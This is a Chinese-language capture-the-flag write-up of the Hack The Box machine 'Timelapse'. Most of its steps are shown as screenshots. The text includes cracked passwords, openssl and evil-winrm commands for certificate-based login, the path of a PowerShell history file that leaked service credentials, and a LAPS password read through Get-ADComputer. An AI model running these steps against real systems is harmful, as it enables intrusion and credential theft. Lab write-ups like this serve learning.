 +++
ShowToc = true
TocOpen = true
title = '0X008 Timelapse'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE018e74c2d1d6b4774bee9e153f9fa396image.png)

![](/htb_img/WEBRESOURCE971f10663a36b5709df0dd5fdc3b60c4image.png)

![](/htb_img/WEBRESOURCE275264544e3a192dbc7b35ebacad3c79image.png)

# 获取立足点

smb匿名访问：

![](/htb_img/WEBRESOURCE7e4e95320e2efb7e81cb3556d4704ff7image.png)

疑似重置后的密码？

7c3XlgsE

![](/htb_img/WEBRESOURCE7987f78949a8217bb11355a4a8ca844eimage.png)

有密码：

![](/htb_img/WEBRESOURCE3c4eeca319f202c25dab2bc1ec1e574dimage.png)

破解：

![](/htb_img/WEBRESOURCEacda20c829e62857094e69c518ee487aimage.png)

但是这东西怎么用呢，后面刚好培训遇到了，pfx是一种存储个人信息的文件，简单理解可以理解为ssh密钥文件，不过普遍都是加密状态，需要解密，破解使用john即可：

thuglegacy

![](/htb_img/WEBRESOURCE4db93b4a2a32347beeac337f1e1ac932image.png)

然后需要将从pfx格式的文件，

openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes

openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem

![](/htb_img/WEBRESOURCE4bf5687eb4cea770d74add9eb7c84c4fimage.png)

evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S

![](/htb_img/WEBRESOURCE3744727b51858143258abb2fdcf6a429image.png)

# 提权

powershell历史文件位置：

$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

可以看到账号密码：

$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force

$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)

![](/htb_img/WEBRESOURCE5315faf8cc6fcc4214a5969b8fa62464image.png)

使用账号密码登录：

![](/htb_img/WEBRESOURCE94bf3055f926c5dc11c032608831c240image.png)

查看当前权限：

又laps的读取权限：

![](/htb_img/WEBRESOURCE125390578e5d691443c473f5b336c969image.png)

laps的解释：

![](/htb_img/WEBRESOURCE66556495d8691b46e715104676085f76image.png)

命令：

Get-ADComputer DC01 -property *

l@11Z8394&pq%$ksR(/87QMx

![](/htb_img/WEBRESOURCE3875cb9197c80142e55b097533d1388cimage.png)

![](/htb_img/WEBRESOURCEd350d4a6c591d0dfc6759b642dc1a9f5image.png)

# 总结

这台靶机的难度其实不太好评判，因为主要涉及的问题在于认知问题，而不是思路上的缺陷。